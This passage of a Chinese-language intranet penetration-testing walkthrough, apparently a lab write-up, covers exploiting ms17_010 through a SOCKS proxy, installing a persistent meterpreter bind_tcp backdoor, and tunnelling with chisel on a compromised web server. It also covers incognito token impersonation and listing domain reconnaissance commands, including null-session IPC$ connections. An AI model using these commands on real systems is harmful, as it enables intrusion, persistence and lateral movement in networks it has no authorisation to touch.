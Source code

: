 注意要`setg Proxies socks5:192.168.0.105:1080`设置代理，不设置代理 ms17_010 很难打通，不知道为什么，也是刚学到的。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxVNMfV1wYpiahULticW8JzYhvzYJfBic3S3SdXUn2xEa5d6W3NWk9NzqTQ/640?wx_fmt=png)img

攻击成功了，得到 shell 后要马上执行命令，否则 session 可能会意外退出，这是代理工具的问题，EW 好像超时不操作就会自动断开。这里我们防止 session 以外退出，有一种方法是可以在目标 Windows 7 上传了一个 bind_tcp 正向的后门，这样即使连接再断了，我们也不用像 ms17_010 那样再打一遍，而是只执行一下 run 就可以了：

```
run persistence -X -i 5 -p 4000 -P windows/meterpreter/bind_tcp
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxP4xztBNFV5SG3n76w289KoThWh53prficzI2cejEOfRrLxVNUjbeY9Q/640?wx_fmt=png)image-20200727011427115![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibx7NDFqmaQtqoicb2418IUk2W8UNM7t7fC8QOxNib8Md8rmCrxhjHriauicw/640?wx_fmt=png)image-20200727131446514

还有一种最直接的方法，就是换个代理工具吧，这里我们将 EW 换成小离大佬推荐的 chisel，据说十分稳定和强大，项目地址：https://github.com/jpillora/chisel 。

在目标 web 服务器上传 chisel_for_linux64，然后执行：

```
./chisel_for_linux64 server -p 2333 --socks5
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxyxWibDmBM2gqN7z8kpUT8ypTl4tDUqhaTfY18GQzXc9hzepyrBy0QBw/640?wx_fmt=png)image-20200727111450263

攻击机执行：

```
./chisel_for_linux64 client 192.168.0.105:2333 socks
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxMExibnsOrEGJ863OB8Y3icWYkT5nVaDnJtuuD5Rflaecm24mUugoBRKw/640?wx_fmt=png)image-20200727111511486

如上图，成功在攻击机上面的 1080 端口开启了一个 socks5 监听，接下来只需在 msf 上`setg Proxies socks5:127.0.0.1:1080`把代理指向 127.0.0.1:1080 就可以了：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxPalnickaOsUK5MRHByqhA049EHkfjoCS9pQubbNphqk0EjibpzU1gHBA/640?wx_fmt=png)image-20200727112554528

如上图，ms17_010 一遍成功，而且 session 再也不会 die 掉了。

为了方便接下来的信息收集，我们需要把当前权限降到普通域用户，因为不是域用户的话是没有权限执行域命令的。

```
getuid    #查看当前tokenuse incognito #加载incognitolist_tokens -u #列出AccessTokenimpersonate_token "DEMO\douser" #模拟DEMO\douser用户rev2self   #返回到之前的AccessToken权限
```

接下来要做的就是信息收集了，详细的内网信息收集请看我的另一篇文章《内网渗透测试：信息收集与上传下载》，这里我们只做几个有用的信息收集。

```
ipconfig /all   查看本机ip，所在域 route print     打印路由信息 net view        查看局域网内其他主机名 arp -a          查看arp缓存 whoami net start       查看开启了哪些服务 net share       查看开启了哪些共享 net share ipc$  开启ipc共享 net share c$    开启c盘共享 net use \\192.168.xx.xx\ipc$ "" /user:""   与192.168.xx.xx建立空连接 net use \\192.168.xx.xx\c$ "密码" /user:"用户名"  建立c盘共享 dir \\192.168.xx.xx\c$\user    查看192.168.xx.xx c盘user目录下的文件  net config Workstation   查看计算机名、全名、用户名、系统版本、工作站、域、登录域 net user                 查看本机用户列表 net user /domain         查看域用户 net localgroup administrators   查看本地管理员组（通常会有域用户） net view /domain         查看有几个域 net user 用户名 /domain   获取指定域用户的信息 net group /domain        查看域里面的工作组，查看把用户分了多少组（只能在域控上操作） net group 组名 /domain    查看域中某工作组 net group "domain admins" /domain  查看域管理员的名字 net group "domain computers" /domain  查看域中的其他主机名 net group "doamin controllers" /domain  查看域控制器（可能有多台）
```

